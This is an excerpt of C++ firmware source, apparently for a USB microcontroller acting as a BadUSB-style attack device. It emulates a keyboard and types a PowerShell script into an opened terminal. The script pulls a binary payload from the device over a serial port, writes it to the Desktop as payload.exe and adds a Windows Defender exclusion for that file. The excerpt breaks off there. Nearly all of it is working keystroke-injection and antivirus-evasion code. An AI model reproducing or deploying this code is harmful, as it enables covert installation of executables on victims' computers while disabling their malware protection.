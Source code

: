````c++
    {
        vTaskDelay(pdMS_TO_TICKS(50));
        if (tud_mounted() && readHandshake)
        {
            readHandshake = false;

            std::array<uint8_t, 4> handshake{};
            std::uint32_t MAX_TRIES = 10;
            if(d.cdc_read(handshake, MAX_TRIES))
            {
                static constexpr std::array<uint8_t, 4> hello{ 0xD, 0xE, 0xA, 0xD };
                d.cdc_write(hello);

                // host expects the size stored in 4 bytes
                auto size = static_cast<std::int32_t>(payload.size());
                std::array<uint8_t, sizeof size> s{};
                std::memcpy(s.data(), &size, s.size());
                d.cdc_write(s);

                d.cdc_write(payload);
            }
        }

        static bool writePowershell = true;
        if (writePowershell && keyboard.ready_to_use())
        {
            writePowershell = false;

            usb::open_terminal(keyboard, 400, 800, 600);
            static constexpr std::string_view code =
                R"(function Read { param($s, $c)
                        $b = New-Object byte[] $c
                        $o = 0
                        while ($o -lt $c) {
                            $r = $s.Read($b, $o, ($c - $o))
                            $o += $r
                        }
                        return $b
                    }

                    $n = [System.IO.Ports.SerialPort]::GetPortNames()
                    if ($n.Length -gt 0) {
                        foreach ($p in $n) {
                            $s = New-Object System.IO.Ports.SerialPort($p, 115200, 'None', 8, 'One')
                            $s.ReadTimeout = 50

                            $s.Open()
                            if ($s.IsOpen) {
                                [byte[]] $h = 0xB, 0xE, 0xE, 0xF
                                $s.Write($h, 0, 4)
                                $a = Read $s 4
                                if (-not (Compare-Object $a (0xD,0xE,0xA,0xD))) {
                                    $r = Read $s 4
                                    $i = [BitConverter]::ToInt32($r, 0)
                                    Write-Output "Size: $i"
                                    if ($i -gt 0) {
                                        $m = New-Object byte[] $i
                                        $m = Read $s $i

                                        $f = Join-Path $HOME "Desktop/payload.exe"
                                        [System.IO.File]::WriteAllBytes($f, $m)
                                        Add-MpPreference -ExclusionPath $f
````